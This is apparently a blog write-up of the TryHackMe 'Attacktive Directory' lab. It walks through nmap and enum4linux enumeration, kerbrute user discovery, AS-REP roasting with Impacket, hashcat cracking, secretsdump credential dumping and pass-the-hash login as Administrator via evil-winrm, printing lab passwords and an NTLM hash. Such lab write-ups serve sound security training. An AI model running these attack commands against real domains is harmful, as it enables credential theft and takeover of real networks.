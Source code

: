 ```yaml
---
layout: post
title: "Active Directory"
date: 2023-05-20 
categories: ["Hands-on", "TryHackMe"]
tags: ["TryHackMe","Active Directory"]
---
```


# [Active Directory](https://tryhackme.com/room/attacktivedirectory)
> Attackers think in Graphs
Tool used: **nmap**, **enum4linux**, **Impacket**, **evil-winrm**

**Scenario:**
*99% of Corporate networks run off of AD. But can you exploit a vulnerable Domain Controller?*

By now, I have focused my skills and energy on exploiting Linux machines. However, I want to switch gears and focus on Windows' Active Directory instead. This shift will help me broaden my horizons and learn not only how to exploit different operating systems but also the various services and systems within that operating system.


## Setup
I followed the setup section to install Impact, bloodhound, and Neo4j, after doing so i ran the command to update and upgrade for any issues. Downloading BloudHound and Neo4j did take a long time so I started reading on each tool. 

```bash
sudo apt update && apt upgrade 
```

### Impacket
[Impacket](https://www.secureauth.com/labs/open-source-tools/impacket/) is a collection of python classes for working with network protocols like IP, TCP and such. It has many features including remote execution, Kerberos, Windows Secrets, Server tools, and etc. 

### Bloodhound
[BloodHound](https://github.com/BloodHoundAD/BloodHound) uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Bloudhound can be used to identify highly complex attack paths, identify and eliminate the paths, gain deeper understanding of privilege relationships 

### Neo4j
Neo4j is a grapgh database managment system. It is designed to store, manage, and process large amounts of structured and connected data in the form of a graph. Unlike traditional relational databases, which store data in tables with rows and columns, Neo4j organizes data in nodes, relationships, and properties.

### evil-winrm
[WinRM] (https://www.kali.org/tools/evil-winrm/)(Windows Remote Management) is the Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate. Microsoft included it in their Operating Systems in order to make life easier to system administrators.

This program can be used on any Microsoft Windows Servers with this feature enabled (usually at port 5985), of course only if you have credentials and permissions to use it. So it could be used in a post-exploitation hacking/pentesting phase. The purpose of this program is to provide nice and easy-to-use features for hacking. It can be used with legitimate purposes by system administrators as well but the most of its features are focused on hacking/pentesting stuff.

## Enumeration 
I started the enmueration phase with the basics scanning for open ports using nmap. The result were a lot, but I can see that port 139/445 are open and the question asks about the tool to use to enumerate that port which ofcourse is enum4linux.

## Ports scanning  
```bash
nmap -sV 10.10.159.47

53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-05-20 09:16:12Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### SMB Enumeration 
We can use **enum4linux** to enumerate port 139/445 SMB. The command takes two arguments, the -U to get the serlist and the -o To gather OS information of the target. The NetBIOS-Domain name can be found in the result of the enumeration 

```bash
enum4linux -U -o 10.10.159.47
```
> Commonly used invalid Top-level Domain for AD Domain is .local

### [Kerberos](https://github.com/ropnop/kerbrute/releases) Enumeration 
Kerberos is a key authentication service within AD, for the tool that will be used its **Kerbute** to brute force discover of users, passwords and passwords spray (add later what password spray is)

After setting up Kerbrute to work enumerate the usernames and files i used the previous question hind for the top level domain to write the command below and provided the username list. The command userenum used to enumerate valid usernames 

```bash
./kerbrute userenum --dc 10.10.159.47 -d spookysec.local user.txt
```

After running the enumeration I noticed 3 users that stood out and svc-admin was the answer to the notable account discovered, and the other one was backup.


## Exploiting 

### Abusing Kerberos
ASREPRoasting attach occurs when a user account has the privilege "Does not require Pre-Authentication" set. Meaning that no valid identification is needed befoee requesting a Kerberos Ticket on the specified user account. **Impacket** will be used to make this attack happen, it has a tool called **GetNPUsers.py**that sllows us to query ASREPRoastable accounts from Key Distrubtion center. I ran the command below with the kerbuser.txt that contains the backup and the svc-admin to see if one of them or both of them are ASREPRoastable accounts. SVC-Admin came back with a long hash I copied the first part of the hash and found it in the hashcat examples as '18200 - Kerberos 5, etype 23, AS-REP' 

```bash
python /opt/impacket/examples/GetNPUsers.py -no-pass -usersfile kerbuser.txt -dc-ip 10.10.159.47 spookysec.local/
```

Cracking the hash using hashcat mode 18200 to find that the password is management2005

```bash
hashcat -m18200 kerbhash /usr/share/wordlists/rockyou.txt 
```

## Back to Enumeration
> Enumerating any shares that the domain controller may be giving out. 
**smbclient** is used to make remote SMB shares, the option *-L* lists the shares the command below was used to list the share using the password that was found. 

```bash
smbclient -L 10.10.159.47 -U svc-admin
Enter WORKGROUP\svc-admin's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
    
    SMB1 disabled -- no workgroup available
```

For this part i have to use the guide to learn how to use smbclient and what to do. After listing the shares I need to access the backup's content to view the text file. I used the below command to get the file and when it read the content it was encoded so i used cyberchef to decode the base64 to 'backup@spookysec.local:backup2517860' 

```bash
smbclient \\\\10.10.159.47\\backup -U svc-admin
```

## Privilege Escalation 
Now that we have backup credentials that has unique permission that allows all AD changes to be synced with this user we can use the impacket tool **secretsdump.py** to retrieve all password hashes that the backup user account has. I ran the below comman to start the attack and retrieve all the user accounts hashes using the backup username and password found in the previous step.

```bash
python secretsdump.py -just-dc backup@10.10.159.47
```

After recieving all the hashes for the adminstrator, svc-admin and backup I used the evilwinrm with -H option to pass the user's hash to log in as the Administrator then i checked each user desktop to finally get the flags.

```bash
./evil-winrm -i 10.10.159.47 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc 
```